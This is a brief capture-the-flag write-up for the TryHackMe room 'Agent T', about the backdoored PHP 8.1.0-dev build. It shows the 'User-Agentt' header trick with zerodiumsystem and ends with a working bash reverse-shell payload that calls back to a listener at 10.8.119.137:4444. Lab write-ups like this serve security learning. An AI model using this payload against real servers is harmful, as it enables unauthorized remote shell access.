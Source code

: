 ```yaml
---
title: Agent T
description: 'PHP v8.1.0-dev backdoor'
pubDate: 2023-06-29
category: 'tryhackme'
tags: ['php', 'v8.1.0-dev', 'zerodiumsystem']
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/5dbc4e7d8515e7bc05b7742f26944ae9.png'
---
```


Looking at the response headers we see:
```
X-Powered-By: PHP/8.1.0-dev
```

This version has a backdoor (https://www.exploit-db.com/exploits/49933) which we can abuse.

It uses the uses a second special `User-Agentt` header to execute code.

```
"User-Agentt": "zerodiumsystem('<cmd>);"
```

Getting a reverse shell:
```
User-Agentt: zerodiumsystem('bash -c "bash -i >& /dev/tcp/10.8.119.137/4444 0>&1"');
```
